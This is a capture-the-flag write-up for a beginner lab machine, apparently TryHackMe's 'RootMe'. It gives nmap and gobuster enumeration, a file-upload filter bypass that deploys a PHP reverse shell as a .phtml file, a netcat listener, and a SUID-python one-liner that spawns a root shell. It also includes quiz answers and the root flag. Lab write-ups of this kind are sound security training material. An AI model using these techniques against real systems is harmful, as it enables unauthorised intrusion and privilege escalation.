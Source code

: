 *A ctf for beginners, can you root me?*
**Difficulty:** Easy
## Reconnaissance

I started by scanning the top 1000 ports of the target IP with nmap using the default scripts and version detection. **10.10.80.208** is the IP address of my instance of the target machine.

**Command:** `nmap -sC -sV 10.10.80.208`

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-21 20:15 EST
Nmap scan report for 10.10.80.208
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan shows two open ports: 
 * Port 22: Running an SSH server (OpenSSH 7.6p1 Ubuntu).
 * Port 80: Hosting a webpage titled "HackIT - Home" on Apache/2.4.29.

The results give us enough to answer the first three questions.
#### Scan the machine, how many ports are open?
**Answer:** 2

Since the expected answer matches the number of open ports we found by scanning the top 1000, there is no need to further scan the full range of ports.
#### What version of Apache is running?
**Answer:** 2.4.29

This can be seen in the `http-server-header` field of the scan results of port 80.
#### What service is running on port 22?
**Answer:** ssh
#### Find directories on the web server using the GoBuster tool. 
Now we need to enumerate the http service for any hidden directories using Gobuster. This will brute-force check using a wordlist of popular directory names. 

I used my Kali home lab for this room, so the command uses a relative path, but the wordlist can be found here on the attack box: `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

**Command:** `gobuster dir -u http://10.10.80.208 -w wordlists/directory-list-2.3-medium.txt`

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.80.208
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.80.208/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.80.208/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.80.208/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.80.208/panel/]
/server-status        (Status: 403) [Size: 277]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

#### What is the hidden directory?
**Answer:** /panel/

Two noteworthy directories are `/uploads` and `/panel`. Visiting `http://10.10.80.208/uploads/` returns a page that appears to be the location where files uploaded to the server are stored. Visiting `http://10.10.80.208/panel/` shows us a file upload form and seems to be the hidden directory we are looking for.

![](rootme-panel-directory.png)

I uploaded a `.jpeg` image to confirm that files uploaded through this form can be accessed in the `/uploads` path.

![](rootme-jpeg-upload.png)
## Getting a shell
*Find a form to upload and get a reverse shell, and find the flag.*

I used Gobuster to find hints of which type of reverse shell I should upload by adding the following list of extensions for Gobuster to look for on the server: `txt,php,php3,phtml,py,html,php4,php5,js`. 

**Command:** `gobuster dir -u http://10.10.80.208 -w wordlists/directory-list-2.3-medium.txt -x php,php3,php4,php5,phtml,py,js,html,txt`

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.80.208
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,php3,phtml,py,html,php4,php5,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/.phtml               (Status: 403) [Size: 278]
/index.php            (Status: 200) [Size: 616]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.80.208/uploads/]                                       
/css                  (Status: 301) [Size: 312] [--> http://10.10.80.208/css/]                                           
/js                   (Status: 301) [Size: 311] [--> http://10.10.80.208/js/]                                            
Progress: 14977 / 2205610 (0.68%)^Z
zsh: suspended  gobuster dir -u http://10.10.80.208 -w  -x 
```

Since the scan returned `.php` and `.phtml` directories and files on the server I tried with the "php-reverse-shell" script by pentestmonkey. 

GitHub: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
AttackBox: `/usr/share/webshells/php/php-reverse-shell.php`

Remember to change the commented lines to your local IP and listening port in the file.
![](rootme-rev-shell-local.png)

If you try to upload the reverse shell a message is displayed saying that `.php` are blocked from being uploaded to the server.

![](rootme-upload-php-shell.png)
![](rootme-php-restriction.png)

We can try to change the file extension to an alternate PHP extension that would still allow the shell to run, but may not have been restricted for uploads. I used some of these in the Gobuster scan: `php,php3,php4,php5,phtml` and we saw that `.phtml` was present on the server. So I tried renaming the reverse shell file to `php-reverse-shell.phtml`.

![](rootme-upload-phtml-shell.png)
![](rootme-successful-upload.png)
Changing the extension to `.phtml` allowed us to bypass the site file type restrictions and the file uploads successfully! And we can now see the file in the `/uploads` directory.

![](rootme-phtml-upload.png)

Before opening this file in our browser we need to start a netcat listener on our local machine to catch the reverse shell connection. This command needs to run with the same port specified in the `php-reverse-shell.phtml` file.

**Command:** `nc -lvnp 5555`

Executing the file through the browser initiates a reverse shell with `www-data` privileges. 
![](rootme-www-data-priv.png)
After looking around the server a bit I found the `user.txt` flag in the `var/www` directory.
![](rootme-user-flag.png)
## Privilege escalation
*Now that we have a shell, let's escalate our privileges to root.*
#### Search for files with SUID permission, which file is weird?
**Answer:** `/usr/bin/python`

With the below command we can search for files that are owned by root and have SUID permissions.

**Command:** `find / -user root -perm /4000 2>/dev/null

![](rootme-suid-perm.png)

Python showing up in this search is noteworthy because it will let us execute commands as the current user with root privileges.
#### Find a form to escalate your privileges.
GFTOBins provides a way to escape our privileges to root when python has SUID permissions: https://gtfobins.github.io/gtfobins/python/#suid

The command shown in GFTOBins will invoke `/bin/sh` with the `-p` flag, preserving the user ID. Since Python is SUID and owned by root, it gives us a shell with root privilege.

**Command:** `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

![](rootme-escalate.png)
#### root.txt
**Answer:** THM{pr1v1l3g3_3sc4l4t10n}

We can now access the root directory and find the root flag!
![](rootme-root-flag.png)